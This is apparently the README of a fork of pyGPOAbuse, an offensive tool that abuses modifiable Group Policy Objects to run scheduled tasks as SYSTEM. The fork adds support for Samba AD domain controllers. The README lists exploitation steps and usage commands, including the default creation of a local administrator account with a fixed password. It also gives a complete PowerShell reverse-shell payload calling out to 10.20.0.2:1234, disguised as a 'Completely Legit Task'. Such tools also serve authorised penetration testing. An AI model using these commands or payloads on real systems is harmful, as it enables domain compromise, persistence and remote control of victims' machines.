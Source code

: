 # pyGPOAbuse_samba_ad_dc fork

this fork contains support for samba ad dc for creating tasks behalf of privileged gpo.  

exploitation steps:  
1- create executable file with your needs. it can be bash script or elf binary.  
2- execute pygpoabuse.py against a samba ad dc.  
3- after gp update, machine/machines received an instant job to execute the executable.
4- see if your executable is worked or not. (multiple issues of "samba-gpupdate" might be needed)

here's a poc:  
![poc](https://github.com/crosscutsaw/pyGPOAbuse_samba_ad_dc/raw/master/assets/samba_ad_dc_poc.jpg)

## below is original pygpoabuse repository readme  

## Description

Python **partial** implementation of [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse) by[@pkb1s](https://twitter.com/pkb1s)

This tool can be used when a controlled account can modify an existing GPO that applies to one or more users & computers. It will create an **immediate scheduled task** as **SYSTEM** on the remote computer for computer GPO, or as logged in user for user GPO.

Default behavior adds a local administrator.

![Example](https://github.com/Hackndo/pygpoabuse/raw/master/assets/demo.gif)

## How to use

### Basic usage

Add **john** user to local administrators group (Password: **H4x00r123..**)

```bash
./pygpoabuse.py DOMAIN/user -hashes lm:nt -gpo-id "12345677-ABCD-9876-ABCD-123456789012"
``` 

### Advanced usage

Reverse shell example

```bash
./pygpoabuse.py DOMAIN/user -hashes lm:nt -gpo-id "12345677-ABCD-9876-ABCD-123456789012" \ 
    -powershell \ 
    -command "\$client = New-Object System.Net.Sockets.TCPClient('10.20.0.2',1234);\$stream = \$client.GetStream();[byte[]]\$bytes = 0..65535|%{0};while((\$i = \$stream.Read(\$bytes, 0, \$bytes.Length)) -ne 0){;\$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString(\$bytes,0, \$i);\$sendback = (iex \$data 2>&1 | Out-String );\$sendback2 = \$sendback + 'PS ' + (pwd).Path + '> ';\$sendbyte = ([text.encoding]::ASCII).GetBytes(\$sendback2);\$stream.Write(\$sendbyte,0,\$sendbyte.Length);\$stream.Flush()};\$client.Close()" \ 
    -taskname "Completely Legit Task" \
    -description "Dis is legit, pliz no delete" \ 
    -user
``` 

### Cleanup
Delete the scheduled task after it executed.

```bash
./pygpoabuse.py DOMAIN/user -hashes lm:nt -gpo-id "12345677-ABCD-9876-ABCD-123456789012" --cleanup
```


## Credits

* [@pkb1s](https://twitter.com/pkb1s) for [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse)
* [@airman604](https://twitter.com/airman604) for [schtask_now.py](https://github.com/airman604/schtask_now)
* [@SkelSec](https://twitter.com/skelsec) for [msldap](https://github.com/skelsec/msldap)


